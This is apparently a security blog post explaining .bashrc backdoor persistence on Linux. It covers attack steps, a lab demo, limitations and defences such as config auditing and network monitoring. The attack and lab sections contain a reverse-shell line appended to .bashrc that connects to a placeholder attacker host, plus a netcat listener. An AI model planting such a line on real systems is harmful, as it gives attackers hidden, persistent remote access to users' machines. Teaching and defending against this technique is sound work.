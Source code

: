```yaml
---
title : "Linux Backdoors"
date : 2025-06-25
layout : post
categories : [BACKDOOR]
tags : [BASHRC, BACKDOOR, PERSISTENCE, LINUX]
author : jana
---
```


# Bashrc Backdoors: Persistence Through a Hidden Terminal Trap

Hey cybersecurity folks! 👋  

Welcome back to another episode of **“What did the attacker leave behind?”** 🎭  
Today, we’re exploring a stealthy persistence trick attackers love to hide in plain sight: **the `.bashrc` backdoor**.

Why is it dangerous? Because it blends in with everyday shell configuration files — the ones users *trust* but rarely inspect.  

Whether you’re sharpening red team skills, brushing up on blue team defenses, or just geeking out over elegant persistence, this one’s for you. 🚀  

---

## 🔍 What Is a Bashrc Backdoor?

A **bashrc backdoor** is a persistence method that abuses the `.bashrc` file — the script Bash runs every time a new **interactive shell** is launched.  

Attackers append a reverse shell payload to it, so whenever the user opens a terminal, the system silently connects back to the attacker.  

It’s like leaving a bug in someone’s coffee cup: subtle, invisible, and only activated when they take a sip. ☕🐛  

---

## 🧠 Understanding `.bashrc`

- Location: `~/.bashrc` (per user)  
- Executes: whenever a **non-login interactive shell** starts  
- Usual purpose: aliases, prompt tweaks, environment variables  
- Hidden danger: it can run **any shell command**, even malicious ones  

That flexibility makes `.bashrc` a perfect persistence target.  

---

## 🧰 The Attack: Step-by-Step

Here’s how an attacker might weaponize `.bashrc`:  

### ✅ Step 1: Initial Access  
The attacker first compromises the system (via exploit, weak creds, phishing, etc.).  

### ✅ Step 2: Payload Injection  
They append a reverse shell payload to the target user’s `.bashrc`:  

```bash
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> /home/alice/.bashrc
```

Every time **Alice** opens a terminal, the reverse shell fires.  

### ✅ Step 3: Listener Setup  
On the attacker’s machine:  

```bash
nc -lvnp 4444
```

Netcat listens for incoming connections.  

### ✅ Step 4: Trigger  
Hours later, Alice logs in and opens a shell.  

💥 Boom — instant reverse shell connection for the attacker.  

---

## 🔁 Attack Flow Recap

| Step              | Action                                           |
|-------------------|-------------------------------------------------|
| 🎯 Initial Access | Attacker compromises target                     |
| 🐚 Inject Shell   | Reverse shell added to `.bashrc`                |
| 🎧 Listener       | Netcat listening on attacker’s machine           |
| 🔓 Trigger        | User opens terminal, payload executes           |
| 🧠 Access Regained| Attacker reconnects as that user                 |

---

## 🕵️ Why It’s Sneaky  

✅ Blends into a legitimate config file  
✅ Doesn’t create new files or binaries  
✅ Triggers only on user interaction  
✅ Often overlooked during forensics  

For sysadmins or developers who open terminals all day, this trick is especially effective.  

---

## 🧪 Lab Example (Safe Demo)

**On attacker machine:**  
```bash
nc -lvnp 4444
```

**On target machine:**  
```bash
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> ~/.bashrc
bash
```

➡️ Reverse shell pops to the attacker as soon as the victim starts Bash.  

---

## ⚠️ Limitations  

- ❌ Only works when the user opens a shell  
- ❌ Easy to spot if `.bashrc` is inspected  
- ❌ Breaks if user switches shells (e.g., zsh, fish)  
- ❌ Detected by file integrity monitoring tools  

---

## 🛡️ Defense Strategies  

- **Audit Config Files:**  
  Regularly check `.bashrc`, `.profile`, `.bash_profile` for strange entries  
  Use integrity monitoring tools (AIDE, Tripwire, etc.)  

- **Monitor Network Traffic:**  
  Flag unusual outbound connections, especially from `bash` or `nc` processes  

- **User Awareness:**  
  Train users to report slow logins, weird prompts, or unexplained network activity  

---

## 🧠 Final Thoughts  

The `.bashrc` backdoor is simple, elegant, and effective. It requires no malware, no rootkits, just a clever abuse of Linux behavior.  

- For red teamers: a useful persistence trick.  
- For defenders: a reminder that **configuration files are attack surfaces too**.  
- For learners: an eye-opening way to understand subtle persistence methods.  

---

⚠️ **Disclaimer:** This post is for **educational purposes only**. Do not test these techniques on systems you do not own or have explicit permission to assess.  

Stay curious. Stay ethical. And always check your `.bashrc`. 😉  
